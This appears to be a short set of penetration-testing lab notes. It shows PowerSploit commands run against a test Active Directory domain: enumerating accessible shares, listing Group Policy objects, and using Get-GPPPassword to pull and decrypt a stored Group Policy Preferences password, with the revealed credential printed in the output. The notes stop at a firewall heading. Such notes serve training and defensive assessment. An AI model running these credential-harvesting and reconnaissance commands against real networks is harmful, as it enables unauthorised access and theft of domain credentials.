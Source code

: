 
Get shares on AD only user has permission


	PS C:\Users\mrblack\Desktop\PowerSploit\Recon> Find-DomainShare -CheckShareAccess

	Name           Type Remark              ComputerName
	----           ---- ------              ------------
	NETLOGON          0 Logon server share  odin.valhalla.local
	share             0                     odin.valhalla.local
	SYSVOL            0 Logon server share  odin.valhalla.local
	ADMIN$   2147483648 Remote Admin        loki.valhalla.local
	C$       2147483648 Default share       loki.valhalla.local
	share             0                     loki.valhalla.local



Get GPO objects 


	PS C:\Users\mrblack\Desktop\PowerSploit\Recon> Get-DomainGPO | select displayname, gpcfilesyspath

	displayname                       gpcfilesyspath
	-----------                       --------------
	Default Domain Policy             \\valhalla.local\sysvol\valhalla.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}
	Default Domain Controllers Policy \\valhalla.local\sysvol\valhalla.local\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}
	file_copy                         \\valhalla.local\SysVol\valhalla.local\Policies\{3B55057F-EE19-469C-ACD6-37D9F3325D0A}
	Create Local Admin                \\valhalla.local\SysVol\valhalla.local\Policies\{D96909A1-1659-40E6-894A-50B01B469E19}
	Disable Firewall                  \\valhalla.local\SysVol\valhalla.local\Policies\{42EFB49A-9915-4DDD-8B97-77B1AE262A48}
	Disable Windows Defender          \\valhalla.local\SysVol\valhalla.local\Policies\{AF7B0056-348A-45D1-A9D3-490C93DFD017}


Get GPP password

	PS C:\Users\mrblack\Desktop\PowerSploit\Exfiltration> . .\Get-GPPPassword.ps1
	PS C:\Users\mrblack\Desktop\PowerSploit\Exfiltration> Get-GPPPassword


	UserName  : gpomademe
	NewName   : [BLANK]
	Password  : Password123!
	Changed   : 2021-08-20 13:44:44
	File      : C:\ProgramData\Microsoft\Group
				Policy\History\{D96909A1-1659-40E6-894A-50B01B469E19}\Machine\Preferences\Groups\Groups.xml
	NodeName  : Groups
	Cpassword : VPe/o9YRyz2cksnYRbNeQoC7S+/HhWsGEcuvup04p1E


# Firewall

check firewall status
